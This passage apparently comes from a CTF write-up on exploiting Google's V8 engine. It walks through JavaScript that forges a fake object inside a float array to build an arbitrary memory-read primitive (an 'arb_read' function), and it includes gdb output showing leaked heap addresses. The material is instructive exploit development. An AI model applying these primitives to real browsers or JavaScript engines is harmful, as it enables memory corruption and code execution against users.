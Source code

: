 ```asm
0th element: `0x369d08086c80`

The address `0x369d08086c80` points to the first element of the JSArray, if we change this to the map of the fake object
Then the address `0x369d08086c98` would be treated as fake object element pointer, so when we try to read the fake_object[0] it will show the address of whatever value is stored at the address `0x369d08086c98 + 0x10`.
```

Let's do this by calling our previous functions `fakeobj` and `addrof`:-

```js
var rw_helper = [itof(flt_arr_map, 64), 1.1, 2.2, 3.3];
var rw_helper_addr = addrof(rw_helper) & 0xffffffffn;

console.log("[+] Controlled RW helper address: 0x" + rw_helper_addr.toString(16));

let fake = fakeobj(rw_helper_addr - 0x20n);
rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
```

What we doing here is, using the `rw_helper` to be used as the float array then we create a fake objected at the `rw_helper_addr - 0x20n` then we make the 1st index of the `rw_helper`'s 1st index to the address of the `addr`, then once we try to access the 0th index value from the `rw_helper` it'll give us the value stored at the `addr`.

Running this:-

```asm
gef➤  r --shell --allow-natives-syntax ~/CTFs/xpl.js 
Starting program: /home/d4mian/CTFs/d8 --shell --allow-natives-syntax ~/CTFs/xpl.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7006700 (LWP 3206)]
[+] Float array map: 0x82438fd
[+] Pointer to array elements: 0x8085321
[+] Pointer to object array elements: 0x8085265
[+] Object array map: 0x824394d
[+] Controlled RW helper address: 0x8085711
V8 version 8.7.9
d8> "0x"+ftoi(rw_helper[0], 32).toString(16);
"0x82438fd"

-- snip --

gef➤  x/xg 0x8085711 + 0x00003e3a00000000 - 1
0x3e3a08085710:	0x080426dd082438fd
```

Awesome, we successfully got the value of the `rw_helper`'s array address. Now, we need to leverage this to the arbitrary write, before moving on let's make a function `arb_read`:-

```js
function arb_read(addr) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    return ftoi(fake[0], 64);
}
```
